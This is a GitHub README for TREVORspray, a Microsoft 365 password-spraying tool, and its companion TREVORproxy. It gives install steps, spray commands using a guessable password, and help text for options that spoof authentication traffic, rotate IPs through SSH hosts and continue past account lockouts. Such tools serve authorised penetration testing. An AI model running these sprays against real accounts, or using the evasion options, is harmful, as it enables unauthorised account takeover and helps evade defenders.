 # TREVORspray
TREVORspray is a featureful Microsoft 365 password sprayer based on [MSOLSpray](https://github.com/dafthack/MSOLSpray) 

By [@thetechr0mancer](https://twitter.com/thetechr0mancer)

![trevorspray](https://user-images.githubusercontent.com/20261699/92338226-e366d680-f07c-11ea-8664-7b320783dc98.png)

## Features
- Tells you the status of each account: if it exists, is locked, has MFA enabled, etc.
- Automatic cancel/resume (remembers already-tried user/pass combos in `~/.trevorspray/tried_logins.txt`)
- Round-robin proxy through multiple IPs using only vanilla `--ssh`
- Automatic infinite reconnect/retry if a proxy goes down (or if you lose internet)
- Spoofs `User-Agent` and `client_id` to look like legitimate auth traffic
- Logs everything to `~/.trevorspray/trevorspray.log`
- Saves valid usernames to `~/.trevorspray/valid_usernames.txt`
- Optional `--delay` between request to bypass M$ lockout countermeasures

## Installation:
```
$ git clone https://github.com/blacklanternsecurity/trevorspray
$ cd trevorspray
$ pip install -r requirements.txt
```

## Example: Perform recon against a domain (retrieves tenant info, autodiscover, mx records, etc.)
```bash
trevorspray.py --recon evilcorp.com
```

## Example: Spray with 5-second delay between requests
```bash
trevorspray.py -e bob@evilcorp.com -p Fall2020! --delay 5
```

## Example: Spray and round-robin between 3 IPs (the current IP is used as well.)
```bash
trevorspray.py -e emails.txt -p Fall2020! --ssh root@1.2.3.4 root@4.3.2.1
```

## TREVORspray - Help:
```
$ ./trevorspray.py --help
usage: trevorspray.py [-h] -e EMAILS [EMAILS ...] -p PASSWORDS [PASSWORDS ...] [-f] [-d DELAY] [-u URL] [-v] [-s SSH [SSH ...]] [-k KEY] [-b BASE_PORT] [-n]

Execute password sprays against O365, optionally proxying the traffic through SSH hosts

optional arguments:
  -h, --help            show this help message and exit
  -e EMAILS [EMAILS ...], --emails EMAILS [EMAILS ...]
                        Emails(s) and/or file(s) filled with emails
  -p PASSWORDS [PASSWORDS ...], --passwords PASSWORDS [PASSWORDS ...]
                        Password(s) that will be used to perform the password spray
  -f, --force           Forces the spray to continue and not stop when multiple account lockouts are detected
  -d DELAY, --delay DELAY
                        Sleep for this many seconds between requests
  -u URL, --url URL     The URL to spray against (default is https://login.microsoft.com)
  -v, --verbose         Show which proxy is being used for each request
  -s SSH [SSH ...], --ssh SSH [SSH ...]
                        Round-robin load-balance through these SSH hosts (user@host) NOTE: Current IP address is also used once per round
  -k KEY, --key KEY     Use this SSH key when connecting to proxy hosts
  -b BASE_PORT, --base-port BASE_PORT
                        Base listening port to use for SOCKS proxies
  -n, --no-current-ip   Don't spray from the current IP, only use SSH proxies
```

## Known Limitations:
- Untested on Windows


# TREVORproxy
TREVORproxy is a SOCKS proxy that round-robins requests through SSH hosts. Note that TREVORspray already has its own proxy feature (`--ssh`), so this is for use with curl, Burpsuite, etc.

## TREVORproxy - Help:
```
$ ./trevorproxy.py --help
usage: trevorproxy.py [-h] [-p PORT] [-l LISTEN_ADDRESS] [-v] [-k KEY] [--base-port BASE_PORT] ssh_hosts [ssh_hosts ...]

Spawns a SOCKS server which round-robins requests through the specified SSH hosts

positional arguments:
  ssh_hosts             Round-robin load-balance through these SSH hosts (user@host)

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port for SOCKS server to listen on (default: 1080)
  -l LISTEN_ADDRESS, --listen-address LISTEN_ADDRESS
                        Listen address for SOCKS server (default: 127.0.0.1)
  -v, --verbose         Print extra debugging info
  -k KEY, --key KEY     Use this SSH key when connecting to proxy hosts
  --base-port BASE_PORT
                        Base listening port to use for SOCKS proxies
```

CREDIT WHERE CREDIT IS DUE - MANY THANKS TO:
- [@dafthack](https://twitter.com/dafthack) for writing [MSOLSpray](https://github.com/dafthack/MSOLSpray)
- [@Mrtn9](https://twitter.com/Mrtn9) for his Python port of [MSOLSpray](https://github.com/MartinIngesen/MSOLSpray)
- [@KnappySqwurl](https://twitter.com/KnappySqwurl) for being a splunk wizard and showing me how heckin loud I was being :)

![trevor](https://user-images.githubusercontent.com/20261699/92336575-27071380-f070-11ea-8dd4-5ba42c7d04b7.jpeg)

`#trevorforget`